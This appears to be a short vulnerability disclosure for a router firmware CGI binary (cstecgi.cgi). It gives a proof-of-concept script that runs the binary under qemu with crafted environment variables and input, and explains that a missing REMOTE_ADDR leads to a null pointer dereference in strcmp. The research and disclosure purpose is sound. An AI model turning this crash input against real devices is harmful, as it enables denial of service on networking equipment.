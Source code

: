

## poc

### getPortLinkStaus.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E QUERY_STRING="action=save&setting&MFRGG43FMZQW2ZLENFXW4IDPMYFA====&1234567890&ABCDEFGHIJKLMNOPQRSTUVWXYZ" \
        -E CONTENT_LENGTH="123" \
        -E http_host="123" \
        -g 123 -L ./lib \
        ./web_cste/cgi-bin/cstecgi.cgi < cookie.json
```

### cookie.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

### tmp/cookie
```
MFRGG43FMZQW2ZLENFXW4IDPMYFA====
```

## Reproduce
```bash
./getPortLinkStaus.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

When `getenv("REMOTE_ADDR")` failed, `v37` will be a null pointer. Tracing execution path from this point, we can trace that the null pointer is passed into the `strcmp` function.
![alt text](image-12.png)

![alt text](image-13.png)

In the `strcmp`, this null pointer will be dereferenced.

![alt text](image-14.png)
